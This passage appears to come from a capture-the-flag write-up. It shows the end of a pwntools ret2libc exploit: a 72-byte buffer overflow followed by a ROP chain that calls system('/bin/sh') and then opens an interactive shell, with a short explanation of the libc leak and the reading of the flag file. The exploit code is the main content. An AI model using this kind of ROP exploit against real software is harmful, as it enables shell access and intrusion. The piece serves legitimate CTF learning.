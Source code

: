 ```python
    payload = flat( 
        b'A' * 72,  
        ret,                # Align stack to 16 bytes (ABI requirement)`  
        pop_rdi,            # (1st argument for `system`)      
        bin_sh,             # Address of "/bin/sh" string in libc`  
        system,             # Call `system` ``  
        p64(0xdeadbeef)     # Optional exit (not critical)`  
    )[:127]                # Trim to 127 bytes`  
    r.send(payload)

    r.interactive()

if __name__ == "__main__":  
    main()
```

The Script will:

1. Leak Libc Address by using `puts` to print out the address of `puts` function and calculate it to find the `libc` base address  
2. Execute `system("/bin/sh")` using leaked libc's address.

After that, I execute the python script I successfully enter to the instance given then I use `cat /flag` (based on the Dockerfile given) to get the flag content. Boom flag found. 

![](image20.png)  